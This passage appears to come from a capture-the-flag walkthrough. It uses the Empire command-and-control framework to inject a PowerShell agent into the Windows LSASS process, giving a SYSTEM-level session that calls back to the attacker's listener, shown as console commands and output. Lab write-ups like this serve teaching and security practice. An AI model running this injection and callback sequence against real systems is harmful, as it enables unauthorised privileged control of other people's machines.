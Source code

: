 ```
 URPFXD5E ps 192.168.112.1   FIRE              *WINDCORP\eval          powershell         6828   5/0.0    2020-08-11 04:03:36  http            
```

Now that we have our agent running, we can just connect to it using the `interact <agent_name>` command. Our goal is to inject powershell into another running process, ideally with elevated privileges.

```
(Empire: agents) > interact URPFXD5E
(Empire: URPFXD5E) >

(Empire: URPFXD5E) > ps
[*] Tasked URPFXD5E to run TASK_SHELL
[*] Agent URPFXD5E tasked with task ID 3

(Empire: URPFXD5E) > 
ProcessName                            PID Arch UserName                     MemUsage 
-----------                            --- ---- --------                     -------- 
Idle                                     0 x64  N/A                          0.01 MB  
System                                   4 x64  N/A                          0.08 MB  
svchost                                 60 x64  NT AUTHORITY\SYSTEM          3.68 MB  
Registry                                88 x64  NT AUTHORITY\SYSTEM          79.86 MB 
smss                                   420 x64  NT AUTHORITY\SYSTEM          1.11 MB  
svchost                                472 x64  NT AUTHORITY\SYSTEM          22.48 MB 
csrss                                  600 x64  NT AUTHORITY\SYSTEM          5.28 MB  
svchost                                604 x64  NT AUTHORITY\NETWORK SERVICE 11.30 MB 
csrss                                  676 x64  NT AUTHORITY\SYSTEM          5.01 MB  
wininit                                696 x64  NT AUTHORITY\SYSTEM          6.70 MB  
winlogon                               764 x64  NT AUTHORITY\SYSTEM          15.02 MB 
svchost                                776 x64  NT AUTHORITY\SYSTEM          11.42 MB 
services                               816 x64  NT AUTHORITY\SYSTEM          13.59 MB
lsass                                  836 x64  NT AUTHORITY\SYSTEM          70.57 MB 
```

Local Security Authority Subsystem Service (LSASS) is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system
It usually is a good target for injection (but can be protected).

```
(Empire: URPFXD5E) > psinject http 836
[*] Tasked URPFXD5E to run TASK_CMD_JOB
[*] Agent URPFXD5E tasked with task ID 4
[*] Tasked agent URPFXD5E to run module powershell/management/psinject
(Empire: URPFXD5E) > 
Job started: 1CZP4X

[*] Sending POWERSHELL stager (stage 1) to 10.10.81.211
[*] New agent GZ9R3EK5 checked in
[+] Initial agent GZ9R3EK5 from 10.10.81.211 now active (Slack)
[*] Sending agent (stage 2) to GZ9R3EK5 at 10.10.81.211

(Empire: URPFXD5E) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 URPFXD5E ps 192.168.112.1   FIRE              *WINDCORP\eval          powershell         6828   5/0.0    2020-08-11 04:09:21  http            
 GZ9R3EK5 ps 192.168.112.1   FIRE              *WINDCORP\SYSTEM        lsass              836    5/0.0    2020-08-11 04:09:21  http            
```
